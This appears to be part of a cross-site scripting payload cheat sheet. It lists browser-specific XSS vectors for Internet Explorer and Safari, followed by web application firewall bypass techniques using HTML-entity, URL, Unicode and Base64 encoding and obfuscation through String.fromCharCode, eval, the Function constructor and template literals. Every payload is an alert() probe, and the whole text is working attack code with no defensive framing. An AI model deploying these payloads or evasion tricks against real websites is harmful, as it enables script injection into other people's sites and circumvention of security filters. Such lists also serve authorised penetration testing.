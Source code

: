 ### Internet Explorer Payloads
```html
<img src=x onerror=alert('XSS')>
<div style="expression(alert('XSS'))">
<xml onreadystatechange=alert('XSS')>
<bgsound src=javascript:alert('XSS')>
```

### Safari Payloads
```html
<svg onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
<video><source onerror="alert('XSS')">
<keygen onfocus=alert('XSS') autofocus>
```

## 🔍 WAF Bypass Techniques

### Encoding Bypass
```html
<!-- HTML entity encoding -->
&lt;script&gt;alert('XSS')&lt;/script&gt;
&#60;script&#62;alert('XSS')&#60;/script&#62;

<!-- URL encoding -->
%3Cscript%3Ealert('XSS')%3C/script%3E
%3Cimg%20src%3Dx%20onerror%3Dalert('XSS')%3E

<!-- Unicode encoding -->
\u003cscript\u003ealert('XSS')\u003c/script\u003e
\x3cscript\x3ealert('XSS')\x3c/script\x3e

<!-- Base64 encoding -->
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">
```

### Obfuscation Techniques
```javascript
// String concatenation
<script>alert('X'+'S'+'S')</script>
<script>alert(String.fromCharCode(88,83,83))</script>

// Eval obfuscation
<script>eval('alert("XSS")')</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>

// Function constructor
<script>(function(){alert('XSS')})()</script>
<script>new Function('alert("XSS")')();</script>

// Template literals
<script>alert`XSS`</script>
<script>eval`alert\`XSS\``</script>
```
